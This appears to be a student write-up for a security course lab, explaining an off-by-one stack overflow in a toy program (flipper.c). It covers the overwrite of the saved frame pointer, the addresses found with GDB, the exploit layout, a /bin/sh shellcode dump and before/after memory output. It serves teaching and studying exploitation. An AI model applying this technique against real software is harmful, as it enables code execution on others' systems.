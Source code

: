 # Question 4: Vega Write-up
## Main Idea
#### (A description of the vulnerability)
The code is vulnerable because ```flip``` function uses ```<=``` instead of ```<``` which allows us to write n + 1 byte instead of n, overflowing the byte immediately after the ```buf```. Sfp of ```flip``` is right above ```buf``` so we can change the least significant byte of sfp such that it points back to the ```buf``` which we can fill up with the address of shellcode. After sfp reroutes to ```buf```, it will pick up the address of shellcode and executes it.
```
    char buf[64];
    ...
    ...
    for (i = 0; i < n && i <= 64; ++i)
        buf[i] = input[i] ^ 0x20;
```
This is a off-by-one vulnerability.

## Magic Numbers
#### (How any relevant “magic numbers” were determined, usually with GDB)
We first determined the address of our shellcode (0xffffdfaa + 4 = 0xffffdfae) which is located around the top of the stack as an environment variable. We add 4 to it because first four bytes of that environment variable is 'EGG='.
```
(gdb) print ((char **) environ)[4]
$1 = 0xffffdfaa "EGG=j2X̀\211É\301jGX̀1\300Ph//shh/binT[PS\211\341\061Ұ\v̀"
(gdb) x/2wx 0xffffdfaa
0xffffdfaa:     0x3d474745      0xcd58326a
```
We then determine the address of ```buf``` (0xffffd570) and the address of rip of ```invoke``` (0xffffd5b4). Finding the addresses was done through invoking GDB and setting a breakpoint at line 17.
```
(gdb) x/32x buf
0xffffd570:     0x00000000      0x00000001      0x00000000      0xffffd71b
0xffffd580:     0x00000002      0x00000000      0x00000000      0x00000000
0xffffd590:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
0xffffd5a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b0:     0xffffd5bc      0x0804927a      0xffffd751      0xffffd5c8
0xffffd5c0:     0x0804929e      0xffffd751      0xffffd650      0x0804946f
0xffffd5d0:     0x00000002      0xffffd644      0xffffd650      0x0804a000
0xffffd5e0:     0x00000000      0x00000000      0x0804944d      0x0804bfe8

(gdb) i f
Stack level 0, frame at 0xffffd5b8:
 eip = 0x8049251 in invoke (flipper.c:17); saved eip = 0x804927a
 called by frame at 0xffffd5c4
 source language c.
 Arglist at 0xffffd5b0, args: in=0xffffd751 "AAAA\216\377\337\337", 'A' <repeats 56 times>, "P"
 Locals at 0xffffd5b0, Previous frame's sp is 0xffffd5b8
 Saved registers:
  ebp at 0xffffd5b0, eip at 0xffffd5b4
```
The sfp of ```invoke``` is located below rip at 0xffffd5b0 with value 0xffffd5bc. To make it point to the start of ```buf```, we have to change the least significant byte bc (0xffffd5bc) to 70 (0xffffd570). Because each byte is xored with 0x20 before overwriting to the ```buf```, 0x50 does the job. 0x20 ^ 0x50 = 0x70

## Exploit Structure
#### (A description of your exploit structure)
This exploit has four parts:
1. Write 4 bytes of garbage to account for sfp popoff.
2. Overwrite the next 4 bytes with the address of shellcode.
3. Write 56 bytes of garbage to pad rest of ```buf```. 
4. Overwrite the least significant byte of the sfp of ```invoke``` to make it point back to ```buf``` (0xffffd570).

## Exploit GDB Output
#### (GDB output demonstrating the before/after of the exploit working)
When we ran GDB after inputting the malicious exploit string, we got the following output:
```
(gdb) x/32x buf
0xffffd570:     0x61616161      0xffffdfae      0x61616161      0x61616161
0xffffd580:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd590:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5a0:     0x61616161      0x61616161      0x61616161      0x61616161
0xffffd5b0:     0xffffd570      0x0804927a      0xffffd751      0xffffd5c8
0xffffd5c0:     0x0804929e      0xffffd751      0xffffd650      0x0804946f
0xffffd5d0:     0x00000002      0xffffd644      0xffffd650      0x0804a000
0xffffd5e0:     0x00000000      0x00000000      0x0804944d      0x0804bfe8
```
After 4 bytes of garbage, address of shellcode is successfully inserted into the buffer, 56 more bytes of garbage to pad rest of buffer and the sfp of ```invoke``` at 0xffffd5b0 points back to the start of the ```buf``` (0xffffd570) which causes our program to go back to buf, pick up the address of shellcode and start executing it.